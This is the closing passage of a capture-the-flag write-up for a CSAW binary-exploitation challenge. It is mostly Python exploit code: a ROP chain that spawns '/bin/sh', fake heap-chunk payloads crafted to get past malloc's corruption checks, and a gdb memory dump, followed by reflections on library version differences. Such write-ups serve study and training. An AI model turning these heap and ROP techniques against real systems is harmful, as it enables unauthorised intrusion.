payload2 += append_nulls(pck(0x0))*5 # The five return addresses I just used
payload2 += "aaaabbbb" # I just wanted to view this on the stack
#
# Start the second ROP chain here.
#
payload2 += append_nulls(pck(LIBC_BASE + POP_RDX_OFFSET))
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(LIBC_BASE + POP_RSI_OFFSET))
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(LIBC_BASE + POP_RDI_OFFSET))
payload2 += append_nulls(pck(HEAP_ADDR+0x10)) # pointer to "/bin/sh"
payload2 += append_nulls(pck(LIBC_BASE + CALL_EXECVE_OFFSET))
payload2 += "\n"
#
p.send(payload2)
p.interactive() # profit
####

##########################################################################################
#
# What follows are some old payloads from the part of this write-up where I was trying to
# figure out the heap corruption problem. I left it in the final, clean version of the code
# for posterity. Payload 2 below is the code to fit eight free-able fake smallbins into
# 200 bytes of space on the heap.
#
##########################################################################################
turtle_class_addr = 0x6014c0
payload = append_nulls(pck(turtle_class_addr))
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fake pointer forward to second chunk in order to
                                             # fool malloc's heap corruption check when allocating
                                             # the second chunk (happens second)
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fake pointer back to the second chunk in order to finish
                                   # allocating the second chunk, setting bck->fwd = bin in malloc.c:3651.
payload += append_nulls(pck(0x150000000c)) # data for in-use second chunk
payload += append_nulls(pck(0x21))
payload += append_nulls(pck(HEAP_ADDR+0x60)) # second chunk points forward to fourth chunk, required
payload += append_nulls(pck(HEAP_ADDR)) # second chunk points back to first chunk, required
payload += append_nulls(pck(0x20)) # prev size for freed chunk
payload += append_nulls(pck(0x20)) # size of third chunk and second chunk is free
payload += append_nulls(pck(0x00))*2
payload += append_nulls(pck(0x1d0000000c)) # data for in-use first chunk (probably doesn't matter,
                                           # a lot of these chunks are old Objective-C classes that
                                           # haven't been drained because there's no NSAutoreleasePool)
payload += append_nulls(pck(0x21)) # size of fourth chunk and third is used
payload += append_nulls(pck(0x0)) # used to be a forward pointer to the second chunk,
                                  # now it's null because it gets overwritten with data anyway
                                  # when allocating the fourth chunk (happens first).
payload += append_nulls(pck(HEAP_ADDR+0x20)) # fourth chunk points back to second chunk, required
                                             # when allocating fourth chunk (happens first)
payload += append_nulls(pck(0x20)) # fifth chunk: prev size for freed fourth chunk
payload += append_nulls(pck(0x20)) # fifth chunk: size is 0x20 and fourth chunk is free
payload += append_nulls(pck(0x0))*2
payload += append_nulls(pck(0x1800000010)) # data for sixth chunk (in-use)
payload += append_nulls(pck(0x21)) # size of seventh chunk and sixth is used
payload += append_nulls(pck(0x0))*3

# 0x13088b0:	0x00000000006014c0	0x0000000000000021
# 0x13088c0:	0x0000000001312640	0x0000000000000000
# 0x13088d0:	0x000000150000000c	0x0000000000000021
# 0x13088e0:	0x000000000133d870	0x0000000001304790
# 0x13088f0:	0x0000000000000020	0x0000000000000020
# 0x1308900:	0x00000000013022a0	0x0000000000000000
# 0x1308910:	0x0000001d0000000c	0x0000000000000021
# 0x1308920:	0x0000000001342660	0x0000000001335230
# 0x1308930:	0x0000000000000020	0x0000000000000020
# 0x1308940:	0x0000000001312650	0x0000000000000000
# 0x1308950:	0x0000001800000010	0x0000000000000021
# 0x1308960:	0x00000000013213e0	0x0000000000000000
# 0x1308970:	0x0000000000000000	0x0000000000000021


# payload2: the new and improved version.
payload2 = append_nulls(pck(turtle_class_addr))
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x60)) # fwd2
payload2 += append_nulls(pck(HEAP_ADDR+0x18)) # bck2
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x0)) # fwd3
payload2 += append_nulls(pck(HEAP_ADDR+0x30)) # bck3
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x18)) # fwd4
payload2 += append_nulls(pck(HEAP_ADDR+0x48)) # bck4
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x30)) # fwd5
payload2 += append_nulls(pck(HEAP_ADDR+0x78)) # bck5
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x60)) # fwd1
payload2 += append_nulls(pck(HEAP_ADDR+0x0)) # bck1
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x48)) # fwd6
payload2 += append_nulls(pck(HEAP_ADDR+0x90)) # bck6
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x78)) # fwd7
payload2 += append_nulls(pck(HEAP_ADDR+0xa8)) # bck7
payload2 += append_nulls(pck(0x20))
payload2 += append_nulls(pck(HEAP_ADDR+0x90)) # fwd8
payload2 += append_nulls(pck(HEAP_ADDR+0xc0)) # bck8
```


## Comparison to other approaches

After finishing I found a write-up by [Los Fuzzys](https://ctftime.org/writeup/11363). Essentially they used the same approach: they manufactured a fake turtle class, used the same gadget to enable a ROP chain, created a format string exploit to leak a `libc` address, and returned to the `read` function to enable a second use of a ROP chain and ROP a shell. I didn't see any mention of the need to prevent the heap corruption that I encountered, however, and I wonder if I had been using an incorrect version of the GNU Step library. It's possible, as the problem designers did not release the library files until around the second day of the competition.

Running the exploit again to get remote access to the server and entering the `libs` directory, I realized that the minor version of the library I was running was different: the server was running `libgnustep-base.so.1.25.0`, and locally I was running `libgnustep-base.so.1.25.1`. Calling `ldd` on the binary only shows the required major version of the library, so I missed this detail, which was only available on the second day of the competition. That may explain why I ran into the heap corruption problem and they did not: the newer version may log warnings when an `NSAutoreleasePool` is not initialized in the code, and that led to the attempt to allocate a freed block in the middle of the heap. I suggest that CSAW re-release this problem with the newer library at some point and increase the point value!

 I was encouraged to find that I ended up using the same approach as Los Fuzzys, and look forward to making fewer mistakes and running into fewer blind alleys with practice. Many thanks to CSAW for this entertaining challenge!
